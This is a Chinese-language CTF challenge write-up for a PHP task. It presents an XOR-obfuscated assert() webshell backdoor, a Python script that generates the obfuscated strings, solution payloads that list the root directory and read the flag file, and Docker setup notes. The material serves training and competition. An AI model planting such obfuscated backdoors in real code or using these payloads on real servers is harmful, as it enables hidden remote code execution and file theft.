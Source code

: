 # Helen_of_Troy
* 题目简介：我看不懂，但我大受震撼。
* HINT：简单的assert()后门。
* 解法：通过写脚本的方式解出加密后的语句` assert($_POST[2sC7F]);`，再利用assert()查找根目录下的文件` 2sC7F=print_r(scandir('/','r'))`，最后再读取flag文件` 2sC7F=readfile('/flagXXXXX','r')`
* PS：HINT在比赛进行到一半后仍较少人做出该题放出。该题特性仅在PHP7.1以前的PHP版本可行，PHP7.1后assert不再支持代码执行，详见https://www.php.net/manual/zh/function.assert.php。
* 源码：
  ```php
    <?php
    $_=('!'^'@').('!'^'R').('!'^'R').('!'^'D').('!'^'S').('!'^'U'); // $_='assert';
    $__='_'.('!'^'q').('!'^'n').('!'^'r').('!'^'u'); // $__='_POST';
    $___=$$__;
    $____=('@'^'r').('!'^'R').('!'^'b').('@'^'w').('!'^'g');//$____='2sC7F';
    $_($___[$____]); // assert($_POST[2sC7F]);
    ?>X
  ```
  ```python
    #该脚本用于生成密文，解密脚本请自行编写
    #可打印ascii(33-126)
    import random
    #a,b,word[33-126]
    #chr():ascii转字符
    #ord():字符转ascii
    def wordMaker(word):
    for i in range (33,126):
        for j in range (33,126):
            if(chr(i^j)==word):
                print("('"+chr(i)+"'^'"+chr(j)+"')")
                return
    print("no such word"+word)
    all="2sC7F"#要加密的字符串
    for i in range(0,len(all)):
    wordMaker(list(all)[i])
  ```
* 考点：PHP异或、assert()代码执行
* 环境搭建：运行`build_docker.sh` 一键搭建。flag为静态，生成后会在根目录下。`entrypoint.sh`脚本会随机修改flag文件的名字，名字为flagXXXXX，默认映射端口为1337，请酌情修改脚本。